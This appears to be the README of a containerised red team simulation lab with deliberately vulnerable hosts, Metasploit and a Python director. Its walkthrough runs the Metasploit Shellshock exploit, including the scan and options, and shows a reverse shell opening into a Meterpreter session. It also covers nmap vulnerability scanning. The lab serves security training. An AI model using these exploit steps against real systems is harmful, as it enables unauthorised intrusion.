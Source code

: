 # redteam

Red Team simulation

## Components

- Postgres database
- Vulnerable hosts:
  - Apache httpd vulnerable to shellshock
  - DVWA (Damn Vulnerable Web Application)
  - vsftpd with an infamous backdoor
- Metasploit RPC api (red team worker)
- Python director (red team director)
- Metasploit console (for debugging)




## Requirements

1. Install docker and docker-compose




## Usage

1. Start the database: `docker-compose -f docker-compose-db.yml up -t 2`
   (persistence is disabled, removing the container will reset the data)
1. Start director and workers: `docker-compose -f docker-compose-workers.yml up -t 2`
1. Start the director: `docker-compose up --build -t 2`


## Development

You should normally use `docker-compose up` instead of running your own python, but if for some reason you need local development:

```
pip install --user pipenv
cd redteam/director
pipenv shell
pipenv install
python -u director/main.py
```

To run tests:

```
cd redteam/director
pipenv shell
pipenv install
python -m pytest
```


## Manual use of metasploit

If you want to debug the state of the database or perform 
manual actions in metasploit, you can connect to the
msfconsole by ```docker attach redteam_msfconsole_1```


<details>
  <summary>Remote code execution exploiting Shellshock</summary>

### Example attack


Scan the hostname "target2"
```
> db_nmap target2
```

Check that the host is now in the database
```
> hosts
Hosts
=====

address     mac                name                               os_name  os_flavor  os_sp  purpose  info  comments
-------     ---                ----                               -------  ---------  -----  -------  ----  --------
172.19.0.3  02:42:ac:13:00:03  redteam_target2_1.redteam_default  Unknown                    device         
```

Check which services are now in the database
```
> services
Services
========

host        port  proto  name   state  info
----        ----  -----  ----   -----  ----
172.19.0.3  80    tcp    http   open 
```

Let's assume you expect the host to be vulnerable to shellshock, let's exploit it:
```
> use exploit/multi/http/apache_mod_cgi_bash_env_exec
> show options
> set RHOSTS target2
> set TARGETURI /cgi-bin/stats
```

Run the exploit:
```
> exploit

[*] Started reverse TCP handler on 172.19.0.6:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (976712 bytes) to 172.19.0.3
[*] Meterpreter session 1 opened (172.19.0.6:4444 -> 172.19.0.3:60846) at 2020-11-04 12:52:22 +0000

meterpreter >
```

Profit!


</details>


<details>
  <summary>Vulnerability scanning</summary>

```
  mkdir -p $HOME/.nmap/scripts && wget -O $HOME/.nmap/scripts/vulners.nse 'https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/vulners.nse' && nmap --script-updatedb
  nmap -sV --script vulners  --script-args mincvss=6.0 target1
```
</details>
